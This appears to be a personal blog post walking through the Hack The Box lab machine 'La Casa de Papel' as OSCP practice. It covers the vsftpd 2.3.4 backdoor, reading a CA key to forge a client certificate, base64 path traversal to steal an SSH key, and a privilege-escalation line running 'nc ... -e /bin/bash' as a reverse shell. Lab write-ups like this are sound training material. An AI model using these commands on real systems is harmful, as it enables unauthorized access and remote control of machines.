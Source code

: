 ```yaml
---
title:  "Hack The Box / La Casa de Papel"
date: 2020-02-13
tags: [Penetration Testing, Hacking, Hack The Box, Jeeves, OSCP, Offensive Security]
header: 
  image: "assets/images/casa/casa-header.png"
---
```

La Casa de Papel is our last machine in the OSCP list provided by [NetSec Focus](https://www.netsecfocus.com/)! Very interesting machine due to the enumeration and usage of different SSL certificates. Also, the foothold for the intrusion is very nice!. This is the last blog after my third attempt to the OSCP exam, I'm gonna publish my exam result email even if I failed it, and try to analize what I did and how I can improve it. The exam will be the end of this OSCP series, it will be published in the following 10 days. Let's get to La Casa de Papel!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/casa/list.jpg" alt="nmap scan">

## Information Gathering


### Nmap Scan
So, we start with a nmap scan to check what ports are open and what services are running in this machine.
```
nmap -sC -sV -p- -oN scan.nmap 10.10.10.131
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/casa/nmap.png" alt="nmap scan">
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/casa/nmap.png" alt="nmap2 scan">

There are couple services running such as SSH, HTTP. Sounds like the enumeration is going to be quiet interesting this time due to the SSL enumeration. 

Visiting the website running in port 80, there is this website related to La Casa de Papel show on Netflix.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/casa/browser.png" alt="nmap2 scan">

Curiously, there is this some kind of OTP token in order to get authenticated with it, but after searching around it was not very helpful. 

### Exploiting  vsftpd 2.3.4

 vsftpd 2.3.4 is a FTP server running in the target machine, this FTP server does not allow Anonymous login, but there are a couple of exploits that can be helpful. 
```
searchsploit vsftpd 2.3.4
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/casa/searchsploit.png" alt="nmap2 scan">

According ```searchsploit``` metasploit has a module related to this FTP server and its vulnerability, but in the OSCP exam, the usage of metasploit has certain limitations, so in this case I found more information related to the server and its vulnerability in this [website](https://metalkey.github.io/vsftpd-v234-backdoor-command-execution.html). The website shows that the vulnerability can be exploited by adding a smile face ```:)``` at the end of the user. That will be a trigger for port 6200 to open and look for more posibilities. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/casa/triger.png" alt="nmap2 scan">

Effectively, the vulnerability was tigger with the smile face, also we have a good answer in port 6200 which is some kind of php debugging shell called [Psy-shell](https://www.sitepoint.com/interactive-php-debugging-psysh/). There are some commands that are restricted in this kind of shell, commands such as, ```system```, but there are other commands that are allowed. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/casa/help.png" alt="nmap2 scan">

According the commands that we can execute, the command ```ls``` allow us to see local variables, in this case on of the local variables are ```$tokyo```. Knowing this variable, we can see the content in this varible. To see the content, execute this command. 
```
show $tokyo
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/casa/show.png" alt="nmap2 scan">

Something interesting here! There is this file with some kind of certificate located in ```/home/nairobi/ca.key```. We can read the file executing this commmand. 
```
readfile  ('/home/nairobi/ca.key')
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/casa/read-key.png" alt="nmap2 scan">

This certificate can be helpful to generate a certificate signing a request using openssl. This certificate will be useful in order to get access to the target website. In order to do this, execute the following commands. 
```
openssl req -new -key ca.key -out server.csr
openssl x509 -req -days 365 -in server.csr -signkey ca.key -out server.crt
openssl pkcs12 -export -in server.crt -inkey ca.key -out server.p12
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/casa/sign-keys.png" alt="nmap2 scan">

Once having the certificate, there is a chance to import export this certificate to our firefox browser, you can follow instructions from this [website](https://knowledge.digicert.com/solution/SO5437.html) to import the certificate. 

Once the certificate is imported, we must remove the exemption in order to continue to the website.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/casa/remove-exception.png" alt="nmap2 scan">

Once the exemption has been removed, and the certificate accepted, this is the content in the target website. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/casa/cert-in.png" alt="nmap2 scan">

### Exploiting path traversal

Looking at the value of the episodes, this can be vulnerable to path traversal.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/casa/path-trasversal.png" alt="nmap2 scan">

Looking at this, we might be able to see a couple of the users where one of them migh have the SSH key saved!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/casa/which-user.png" alt="nmap2 scan">

Looking at couple of the episodes, they are encoded in base64, that means that we might get the SSH key with encoding the parameter in base64.
```
echo -n "../.ssh/id_rsa" | base64
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/casa/which-user.png" alt="nmap2 scan">

Pasting the result in the parameter ```path=``` effectively we can download the SSH key. 

 

Once they is downloaded, it's time to give it permissions and login through SSH. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/casa/getting.png" alt="nmap2 scan">

And we're in! Time top do privilege escalation. 0

## Privilege escalation

In the home directory of ```professor``` there is a file owned by root called ```mencached.ini``, this command is a writable command where we might be able to put our reverse shell. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/casa/getting.png" alt="nmap2 scan">

So effectively we write the command with the following commnad. 
```
echo -ne "[program:memcached]\ncommand = nc 10.10.16.80 4444 -e /bin/bash" > memcached.ini
```
So this program is a service. Once we write it, we can wait and get a reverse shell back. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/casa/got-root.png" alt="nmap2 scan">

And we are root!

## Reading user and root flag!

Now that we know the privilege escalation, we can read the root and the user flag.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/casa/all-flags.png" alt="nmap2 scan">

The system has been owned

## Conclusion

It was interesting box due to the certificates that we have to import and part of the information gathering made with psy shell. It was a fun box due to the path traversal and privilege escalation! That was the end my friends. 